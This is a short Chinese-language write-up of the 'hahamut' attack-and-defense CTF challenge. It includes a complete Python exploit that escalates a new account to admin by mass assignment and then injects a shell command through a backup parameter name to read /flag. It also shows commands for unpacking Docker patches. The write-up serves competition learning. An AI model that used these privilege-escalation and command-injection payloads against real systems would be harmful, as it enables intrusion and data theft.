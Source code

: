 ## hahamut [A&D]

這題我基本上只有參與輔助的部分, 題目我沒看. 主要就是自動抓流量來到 Arkime 上看, attack manager 部分由 Wilson 負責, ywc 負責拆 patch. 沒想到過了整個上午我們這隊有洞可以打, 但沒人攻擊 QQ. 直到我午後臨時進入, 從封包抄走別隊的攻擊才開始有攻擊分, 我們隊基本上只有被打穿兩種洞.

附個攻擊 script.

```python
#!/usr/bin/env python3
import sys
from secrets import token_hex
import requests

def main():
    url = f"http://{sys.argv[1]}:8763"
    sess = requests.Session()

    username = token_hex(16)
    sess.post(url + '/register', data={
        'username': username,
        'password': username,
        'role': 'user'
    })

    sess.post(url + '/update', data={
        'user[role]': 'admin',
    })

    # 'backup[users]=1&backup[-Iecho+`cat+/flag`>/app/public/af9acdd862352d3d895f16f0dd3380724b0dd33214f1fe8253b6072aaa0b9333e776a1a90555274789a2953c152fafc9]=test'
    sess.post(url + '/admin/backup', data={
        "backup[users]": "1",
        f"backup[-Iecho `cat /flag`>/app/public/{username}]": "test"
    })
    r = sess.get(url + f'/{username}.json')
    print(r.text, flush=True)

main()
```

另外比賽給的 patch 是從 Docker 出來的, 所以拆的時候要像這樣:

```sh
rm file*
wget --header="Authorization: <team token>" http://35.221.224.244:8888/patch/123/file
zstd -d file -o file.tar
undocker file.tar team3_r89.tar
mkdir team3_r89
tar xvf team3_r89.tar -C team3_r89
diff -r src patches/team3_r89/app/src/
```

基本上跟 DEF CON 一樣.

